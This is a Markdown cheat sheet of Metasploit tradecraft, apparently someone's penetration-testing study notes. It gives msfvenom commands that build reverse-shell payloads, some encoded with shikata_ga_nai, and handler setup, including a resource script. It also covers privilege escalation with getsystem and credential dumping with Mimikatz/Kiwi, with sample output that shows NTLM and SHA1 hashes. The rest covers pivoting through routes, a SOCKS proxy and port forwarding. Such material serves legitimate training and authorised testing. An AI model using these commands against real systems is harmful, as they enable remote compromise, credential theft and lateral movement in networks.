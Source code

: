 https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/
##### Standard usage
`msfvenom -a ARCH -p PAYLOAD -e ENCODER -f FORMAT -o OUTPUT LHOST=IP LPORT=PORT`

##### Important formats
Windows: `dll, exe, exe-service, powershell, msi` (NOTE: make sure to use the correct amount of bits, `64` or `32`, or shells won')
Linux: `elf, bash`
Misc: `python, ruby `

##### Useful encoders
Windows: `x86/shikata_ga_nai, x86/opt_sub`

###### Important payloads
Windows: ``
Linux: 

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.8.16.7 LPORT=4444 // Generate a staged ELF meterpreter reverse shell
```
##### Windows
```
msfvenom -a ARCH -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f EXE -o winshell.exe LHOST=IP LPORT=PORT
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o winshell.dll LHOST=IP LPORT=PORT
```

##### Staged vs stageless
Staged payloads: Small bit of code that connects to the attacker, then downloads an actual payload to the RAM.
Example: `windows/shell/reverse_tcp`

Stageless payloads: Full payload, connects to listener when executed.
Example: `windows/shell_reverse_tcp

##### MSFConsole:
```
set payload METERPRETER_PAYLOAD  // meterpreter/ payloads
set LHOST 0.0.0.0
set LPORT 4444
run -j  // Run in background
```

### Post-exploitation

Getting system privileges
```
getuid
```
###### Example
```
(Meterpreter 5)(C:\Users\luiza) > getuid
Server username: ITWK01\luiza
(Meterpreter 5)(C:\Users\luiza) > getsystem
[-] Already running as SYSTEM
(Meterpreter 5)(C:\Users\luiza) > getuid
Server username: NT AUTHORITY\SYSTEM
(Meterpreter 5)(C:\Users\luiza) > 

```


Loading Mimikatz and obtaining hashes:
```
load kiwi
creds_msv
```
###### Example
```
(Meterpreter 6)(C:\Users\luiza) > load kiwi        
Loading extension kiwi...                  
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)  
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
    
Success.
(Meterpreter 6)(C:\Users\luiza) > creds_msv  
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
luiza     ITWK01  167cf9218719a1209efcfb4bce486a18  2f92bb5c2a2526a630122ea1b642c46193a0d837
offsec    ITWK01  1c3fb240ae45a2dc5951a043cf47040e  a914116eb78bec73deb3819546426c2f6bd80bbd

```


#### Pivoting
Scanning other IPs
```
ipconfig
// Check the internal IP (Ethernet adapter IPv4 Address)

// If in a Meterpreter session 
background

// Use the IP from the previous step, replacing the last octet with a 0. This will enable Metasploit to use the IP as a target, and the sessoin to target it to.
route add INTERNAL_IP /24 SESSION_ID
// To check
route print

use auxiliary/scanner/portscan/tcp
set RHOSTS TARGET_INTERNAL_IP_ADDRESS
set PORTS TARGET_PORTS                 // Suggester: 445, 3389. If the SMB ports are open, use exploit/windows/smb/psexec with the known credentials.
run
```

Instead of adding manual routes, `autoroute` can be used too:
```
use multi/manage/autoroute
sessions -l 
set session SESSION_ID
run
```


First, make sure that the `/etc/proxychains.conf` port is set to `1080`.

```
// If in a Meterpreter session:
background

// Setting up the proxy
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
run -j

// Regular commands can now be ran
proxychains xfreerdp /v:172.16.5.200 /u:luiza

```

##### Port forwarding in a Meterpreter session

Portfwd will create a local TCP relay of a remote port.
```
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

```
sessions -i SESSION_TO_ENTER
portfwd -h


portfwd add -l 3389 -p 3389 -r 172.16.5.200

xfreerdp /v:127.0.0.1 /u:USER
```

#### Automation
Using Metasploit *Recourse Scripts*, exploits can be chained together, managed more easily, or otherwise handled more conveniently.
To list them:
```
ls -l /usr/share/metasploit-framework/scripts/resource
```

##### Example output
```
┌─[root@edu-virtualbox]─[/tmp/oscp]
└──╼ #ls -l /usr/share/metasploit-framework/scripts/resource
total 156
-rw-r--r-- 1 root root  7270 22 nov 23:09 auto_brute.rc
-rw-r--r-- 1 root root  2203 22 nov 23:09 autocrawler.rc
-rw-r--r-- 1 root root 11225 22 nov 23:09 auto_cred_checker.rc
-rw-r--r-- 1 root root  6565 22 nov 23:09 autoexploit.rc
-rw-r--r-- 1 root root  3422 22 nov 23:09 auto_pass_the_hash.rc
-rw-r--r-- 1 root root   876 22 nov 23:09 auto_win32_multihandler.rc
-rw-r--r-- 1 root root   155 22 nov 23:09 bap_all.rc
-rw-r--r-- 1 root root   762 22 nov 23:09 bap_dryrun_only.rc
-rw-r--r-- 1 root root   365 22 nov 23:09 bap_firefox_only.rc
-rw-r--r-- 1 root root   358 22 nov 23:09 bap_flash_only.rc
-rw-r--r-- 1 root root   354 22 nov 23:09 bap_ie_only.rc
-rw-r--r-- 1 root root 20767 22 nov 23:09 basic_discovery.rc
-rw-r--r-- 1 root root  4518 22 nov 23:09 dev_checks.rc
-rw-r--r-- 1 root root  3358 22 nov 23:09 fileformat_generator.rc
-rw-r--r-- 1 root root  1319 22 nov 23:09 meterpreter_compatibility.rc
-rw-r--r-- 1 root root  1064 22 nov 23:09 mssql_brute.rc
-rw-r--r-- 1 root root  4346 22 nov 23:09 multi_post.rc
-rw-r--r-- 1 root root  1222 22 nov 23:09 nessus_vulns_cleaner.rc
-rw-r--r-- 1 root root  1659 22 nov 23:09 oracle_login.rc
-rw-r--r-- 1 root root   840 22 nov 23:09 oracle_sids.rc
-rw-r--r-- 1 root root   490 22 nov 23:09 oracle_tns.rc
-rw-r--r-- 1 root root   833 22 nov 23:09 port_cleaner.rc
-rw-r--r-- 1 root root  2419 22 nov 23:09 portscan.rc
-rw-r--r-- 1 root root  1251 22 nov 23:09 run_all_post.rc
-rw-r--r-- 1 root root   333 22 nov 23:09 run_cve-2022-22960_lpe.rc
-rw-r--r-- 1 root root  3084 22 nov 23:09 smb_checks.rc
-rw-r--r-- 1 root root  3837 22 nov 23:09 smb_validate.rc
-rw-r--r-- 1 root root  2592 22 nov 23:09 wmap_autotest.rc
```

To use a script:
```
set AutoRunScript AUTORUNSCRIPT
```
##### Custom rc creation
test.rc:
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
set AutoRunScript post/windows/manage/migrate              // Will create a notepad.exe process and migrade to it, to prevent the session from being killed.
set ExitOnSession false                                    // Be able to handle multiple sessions
```
To use:
```
msfconsole -r test.rc
```
